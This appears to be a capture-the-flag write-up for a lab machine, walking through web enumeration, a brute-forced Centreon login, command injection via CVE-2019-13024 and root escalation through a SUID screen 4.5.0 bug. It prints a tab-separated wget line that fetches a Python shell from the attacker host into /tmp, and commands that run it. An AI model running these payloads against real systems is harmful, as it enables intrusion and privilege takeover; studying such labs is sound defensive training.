



# USER

The `nmap` scan shows the presence of a `http` service. After running the normal enumeration scripts a directory structure was discovered as so:

```
/index.html (Status: 200)
/aa.php (Status: 200)
/monitoring (Status: 401)
/panel.php (Status: 200)
/server-status (Status: 403)
```

The `aa.php` and `panel.php` produce rubbish, but after posting to to `10.10.10.157/monitoring/` the output is produced below:

```
HTTP/1.1 200 OK
Date: Mon, 30 Sep 2019 15:35:17 GMT
Server: Apache/2.4.29 (Ubuntu)
Last-Modified: Wed, 03 Jul 2019 22:47:23 GMT
ETag: "9a-58ccea50ba4c6-gzip"
Accept-Ranges: bytes
Vary: Accept-Encoding
Content-Length: 154
Connection: close
Content-Type: text/html

<h1>This page is not ready yet !</h1>
<h2>We should redirect you to the required page !</h2>

<meta http-equiv="refresh" content="0; URL='/centreon'" />
```

This provides us a new endpoint `/centreon`. This is a monitoring program that allows us to view certain processes present on the machine. Running a quick brute force script created in python gives us the password `password1`.

```
admin:password1
```

Looking at `exploit-db` we have a remote code execution script:

```
Centreon 19.04  - Remote Code Execution                          | exploits/php/webapps/47069.py
```

This does not work but by following the author's design [here](
https://shells.systems/centreon-v19-04-remote-code-execution-cve-2019-13024/), I can manually trigger an exploit.

Some characters are disabled so we have to be crafty.

In his walkthrough it shows the location we need to use:



We can run this through `burp suite`, to see the output.

The image below shows the output when changing the `Monitoring Engine Binary` to `$(whoami)`.



As you can see we have an RCE vulnerability!

Spaces are banned characters, therefore, using tab characters is how we will execute our payload.

The first step is to download a `python` shell to the `/tmp`.
```
wget	10.10.14.14:8000/shell.py	>	/tmp/s.py&echo
```

Then run it using `python`:

```
python	/tmp/s.py
```

This will spawn a shell as `www-data`!

In order to priv esc our enum script shows `/bin/screen-4.5.0` as a SUID binary. 

This can be exploited using this [bug](https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html).

This bug means `screen` opens or creates any log file with full root privileges. For example the PoC shows it working:


```
$ screen -D -m -L bla.bla echo fail
$ ls -l bla.bla
-rw-rw---- 1 root buczek 6 Jan 24 19:58 bla.bla
$ cat bla.bla
fail
```

This means we can run a shell using this bug. After a very quick Google Search we can find an [exploit](https://www.exploit-db.com/exploits/41154). Running this elevates us straight to `root`. This lets us `cat` the `user.txt` and `root.txt`!
